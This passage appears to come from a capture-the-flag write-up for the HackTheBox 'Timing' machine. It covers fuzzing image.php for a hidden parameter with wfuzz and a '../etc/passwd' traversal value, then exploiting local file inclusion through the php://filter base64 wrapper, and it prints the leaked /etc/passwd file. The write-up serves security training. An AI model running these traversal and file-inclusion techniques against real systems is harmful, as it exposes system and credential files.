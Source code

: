 `image.php`

I used `WFUZZ` to find if there is any parameter and i found `img` parameter.

`wfuzz -w anyworldist -hh 0 http://timing.htb/image.php?FUZZ=../etc/passwd`

#### note :
To find `img` parameter i want to make application tell that me  right, you trying to hack me.

another tools :
```
param-miner

Arjun
```
### LFI:

![2](https://user-images.githubusercontent.com/36403473/170888075-b55b6abb-5ac3-4d23-802a-5c11560b312d.png)

very good it's seem way to `attack` let's try some injections (Sql injection -LFI-command injection)

using `PHP wrappers`


finally i found its `LFI`, i used `php://filter/convert.base64-encode` LFI technique to get `etc/passwd`

you can find ways to detect `LFI` here
[here](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

![3](https://user-images.githubusercontent.com/36403473/170888290-c9328511-d71a-4377-986a-7306fb7d866c.png)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```
#### notice